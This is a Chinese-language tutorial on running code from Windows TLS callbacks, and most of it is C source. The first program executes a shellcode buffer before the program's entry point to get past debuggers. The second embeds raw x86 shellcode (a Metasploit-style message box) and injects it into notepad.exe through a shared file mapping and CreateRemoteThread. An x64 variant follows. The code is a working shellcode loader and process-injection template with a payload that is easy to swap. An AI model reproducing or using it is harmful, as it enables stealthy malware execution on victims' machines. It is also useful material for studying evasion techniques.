 # TLS Code Execute

## TLS简介

> 线程局部存储（Thread Local Storage，TLS）用来将数据与一个正在执行的指定线程关联起来。
>
> 进程中的全局变量与函数内定义的静态\(static\)变量，是各个线程都可以访问的共享变量。在一个线程修改的内存内容，对所有线程都生效。这是一个优点也是一个缺点。说它是优点，线程的数据交换变得非常快捷。说它是缺点，一个线程死掉了，其它线程也性命不保; 多个线程访问共享数据，需要昂贵的同步开销，也容易造成同步相关的BUG。
>
> 如果需要在一个线程内部的各个函数调用都能访问、但其它线程不能访问的变量（被称为static memory local to a thread 线程局部静态变量），这就是TLS。

TLS提供了一个回调函数\(callback function\)，在线程程初始化和终止的时候都会调用，由于回调函数会在入口点\(EP\)前执行，而调试器通常会默认在主函数入口点main设置断点，所以常常被用来作为反调试手段使用，同时回调函数允许我们自由编写任意代码，TLS分为静态TLS和动态TLS，静态TLS会把TLS相关数据硬编码在PE文件内，在本篇文章内我们使用静态TLS来实现代码执行。

## 静态TLS

TLS回调函数遵循特殊的编写约定，与dll主函数相似。

```text
typedef VOID
(NTAPI *PIMAGE_TLS_CALLBACK) (
 PVOID DllHandle, 
 DWORD Reason, //Reason 遵循dll调用时相同的参数
 PVOID Reserved
 );
```

静态TLS存储在PE头IMAGE\_DATA\_DIRECTORY DataDirectory\[9\]的位置，同其他目录表数组一样，也是8字节结构 \(VA+Size\)，从TLS的VA处，可以找到该目录的详细信息。

```text
typedef struct _IMAGE_TLS_DIRECTORY32 {   //SIZE:0x18h
    DWORD   StartAddressOfRawData;
    DWORD   EndAddressOfRawData;
    DWORD   AddressOfIndex;             // PDWORD
    DWORD   AddressOfCallBacks;         // PIMAGE_TLS_CALLBACK *
    DWORD   SizeOfZeroFill;
    DWORD   Characteristics;
} IMAGE_TLS_DIRECTORY32;
typedef IMAGE_TLS_DIRECTORY32 * PIMAGE_TLS_DIRECTORY32;
```

## 代码实现

```text
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") 

unsigned char buf[] ="shellcode";


VOID NTAPI TlsCallBack(PVOID DllHandle, DWORD dwReason, PVOID Reserved) 
//DllHandle模块句柄、Reason调用原因、 Reserved加载方式（显式/隐式）
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		((void(WINAPI*)(void)) & buf)();
	}

}
//使用TLS需要在程序中新建一个.tls段专门存放TLS数据，申明使用
#pragma comment (linker, "/INCLUDE:__tls_used")
#pragma comment (linker, "/INCLUDE:__tls_callback")



#pragma data_seg (".CRT$XLB")
//.CRT表明是使用C RunTime机制，$后面的XLB中：X表示随机的标识
//L表示是TLS callback section，B可以被换成B到Y之间的任意一个字母，
//但是不能使用“.CRT$XLA”和“.CRT$XLZ”，因为“.CRT$XLA”和“.CRT$XLZ”是用于tlssup.obj的。
EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBack;
#pragma data_seg ()

int main()
{
	printf("ok");
	return 0;
}
```

## 扩展

由于TLS调用时通常已经初始化了所以进程相关信息\(DLL加载、PEB分配\)，所以理论上我们能在TLScallback函数内实现任意代码，理论上我们能在TLS实现其他任意技术,如在TLS回调函数内实现Mapping注入技术。

```text
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") 
#pragma comment (lib, "OneCore.lib")
#include <Tlhelp32.h>

char shellcode[]=
"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
"\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
"\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
"\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
"\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
"\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
"\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
"\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
"\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
"\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
"\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
"\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
"\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
"\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
"\x68\x58\x20\x20\x20\x68\x4d\x53\x46\x21\x68\x72\x6f\x6d\x20"
"\x68\x6f\x2c\x20\x66\x68\x48\x65\x6c\x6c\x31\xc9\x88\x4c\x24"
"\x10\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
"\x55\x08";


DWORD pid;
VOID NTAPI TlsCallBack(PVOID DllHandle, DWORD dwReason, PVOID Reserved) 
{
	WCHAR lpszProcessName[] = L"notepad.exe";
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

		PROCESSENTRY32 pe;
		pe.dwSize = sizeof pe;

		if (Process32First(hSnapshot, &pe))
		{
			do {
				if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
				{
					CloseHandle(hSnapshot);
					pid = pe.th32ProcessID;
					break;
				}
			} while (Process32Next(hSnapshot, &pe));
		}

		//
		HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

		LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

		memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));



		HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

		LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

		HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);

		UnmapViewOfFile(lpMapAddress);
		CloseHandle(hMapping);
	}

}

#pragma comment (linker, "/INCLUDE:__tls_used")
#pragma comment (linker, "/INCLUDE:__tls_callback")



#pragma data_seg (".CRT$XLB")
EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBack;
#pragma data_seg ()




int main()
{
	return 0;
}
```

x64的回调函数声明使用别的预处理指令

```text
EXTERN_C
#pragma const_seg (".CRT$XLB")
const PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBackCheckDbugger;
#pragma const_seg ()
```

![](../.gitbook/assets/image%20%2889%29.png)

## LINKS

{% embed url="http://www.hackdig.com/?03/hack-2257.htm" %}

{% embed url="https://www.cnblogs.com/kuangke/p/7590657.html" %}

{% embed url="https://blog.csdn.net/hotspurs/article/details/90298636" %}

{% embed url="https://blog.csdn.net/qq\_18218335/article/details/69357016?utm\_medium=distribute.pc\_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.nonecase&depth\_1-utm\_source=distribute.pc\_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.nonecase" %}






